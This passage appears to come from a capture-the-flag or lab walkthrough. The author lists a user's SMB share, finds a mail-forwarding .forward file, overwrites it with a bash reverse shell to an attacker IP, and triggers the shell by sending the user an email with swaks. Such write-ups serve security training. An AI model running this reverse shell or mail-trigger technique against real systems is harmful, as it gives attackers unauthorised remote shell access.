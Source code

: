 But I couldn't make sense of any of those. Let's check the `fox` share next:

```
$ smbclient -U fox //192.168.157.157/fox   
Password for [WORKGROUP\fox]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 14 14:11:46 2023
  ..                                  D        0  Sat Jan  9 02:04:11 2021
  .bashrc                             H     3526  Fri Dec 18 15:48:44 2020
  .Xauthority                         H       53  Tue Aug 10 05:55:45 2021
  .bash_history                       H        0  Tue Jul  4 04:15:25 2023
  .profile                            H      807  Fri Dec 18 15:48:44 2020
  local.txt                           N       33  Fri Jul 14 13:51:10 2023
  .local                             DH        0  Tue Aug 24 18:20:56 2021
  .dosbox                            DH        0  Tue Aug 10 05:55:54 2021
  .bash_logout                        H      220  Fri Dec 18 15:48:44 2020
  .gnupg                             DH        0  Tue Aug 10 05:40:39 2021
  .forward                           AH       25  Tue Aug 24 18:23:05 2021
```

There's an interesting folder called `.forward` present.&#x20;

```
$ cat .forward                                                                 
 | /usr/bin/procmail -f-
```

I read more about this file here:

{% embed url="https://www.linux.com/news/process-your-email-procmail/" %}

Whenever the user receives mail, this output of the mail is piped to this binary. Since we have write access over the `fox` share, we can replace this with our own reverse shell.

```bash
 | bash -c 'bash -i >& /dev/tcp/192.168.45.227/80 0>&1'
```

Then, replace the `.forward` file in the share and send `fox@localhost` an email via `swaks`:

{% code overflow="wrap" %}
```
$ swaks --to fox@localhost --from test@localhost --header "Subject:Password Reset" --body "yo" --server 192.168.157.157
```
{% endcode %}

This would give us a reverse shell:

<figure><img src="../../../.gitbook/assets/image (2780).png" alt=""><figcaption></figcaption></figure>
